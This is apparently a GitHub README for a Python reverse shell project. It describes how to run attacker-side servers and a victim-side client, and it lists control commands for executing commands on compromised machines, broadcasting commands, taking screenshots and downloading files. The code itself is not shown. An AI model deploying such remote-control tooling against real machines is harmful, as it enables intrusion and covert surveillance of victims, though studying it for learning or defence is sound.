 # Python reverse shell ![Python](https://img.shields.io/badge/python-3670A0?style=for-the-badge&logo=python&logoColor=ffdd54)

This project is an example of an reverse shell using python. There are provided 2 server files a single connection server and a multi connection server.

## Usage
### Single connection server: 

1. Run the server on the "attacker" machine

```
$ ./server.py
```
2. Run the client on the "victim" machine
```
$ ./reverse_shell.py
```
Send "close" to close the connection

### Multi-connection server: 

1. Run the server on the "attacker" machine

```
$ ./threader_server.py
```
2. Run the client on the "victim(s)" machine

```
$ ./reverse_shell.py
```
Control center commands:
```
targets: List all connections to the server
session [n]:    Connect to a session. Once connected the you can esecute commands on the client machine. 
                Send "q" to return to control center without stopping the connection. Send "close" to disconnect the client.
sendall [command]: Send a command to all the connected clients
screenshot: Take a screenshot on the client machine
start [command]: Start a program without blocking the shell
get [url]: Download a file from the internet
exit: Turn off the server and close all connections
help: Show this message

```
